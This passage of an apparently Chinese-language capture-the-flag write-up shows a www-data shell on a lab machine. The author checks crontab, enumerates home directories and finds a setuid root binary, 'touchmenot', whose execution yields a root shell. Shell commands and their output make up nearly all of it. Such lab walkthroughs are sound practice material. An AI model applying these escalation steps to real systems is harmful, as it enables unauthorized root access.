 ```bash

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

看到一处奇怪的`suid`：

```bash
/home/legacy/touchmenot
```

分析一下：

```bash
$ cd /home
$ ls
hackme
legacy
$ cd hackme
$ ls
$ ls -la
total 48
drwxr-xr-x 5 hackme hackme 4096 Mar 25  2019 .
drwxr-xr-x 4 root   root   4096 Mar 26  2019 ..
-rw------- 1 hackme hackme 5794 Mar 27  2019 .bash_history
-rw-r--r-- 1 hackme hackme  220 Sep 12  2018 .bash_logout
-rw-r--r-- 1 hackme hackme 3771 Sep 12  2018 .bashrc
drwx------ 2 hackme hackme 4096 Mar 13  2019 .cache
drwx------ 3 hackme hackme 4096 Mar 13  2019 .gnupg
drwxrwxr-x 3 hackme hackme 4096 Mar 21  2019 .local
-rw------- 1 root   root   5588 Mar 25  2019 .mysql_history
-rw-r--r-- 1 hackme hackme  807 Sep 12  2018 .profile
-rw-r--r-- 1 hackme hackme    0 Mar 13  2019 .sudo_as_admin_successful
$ cd ../legacy
$ ls -la
total 20
drwxr-xr-x 2 root root 4096 Mar 26  2019 .
drwxr-xr-x 4 root root 4096 Mar 26  2019 ..
-rwsr--r-x 1 root root 8472 Mar 26  2019 touchmenot
$ file touchmenot
touchmenot: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3ff194cb73ad46fb725445a4a8992494e7110a1c, not stripped
$ strings touchmenot
/bin/sh: 14: strings: not found
$ objdump -d touchmenot
/bin/sh: 16: objdump: not found
$ ./touchmenot
whoami;id
root
uid=0(root) gid=33(www-data) groups=33(www-data)
```
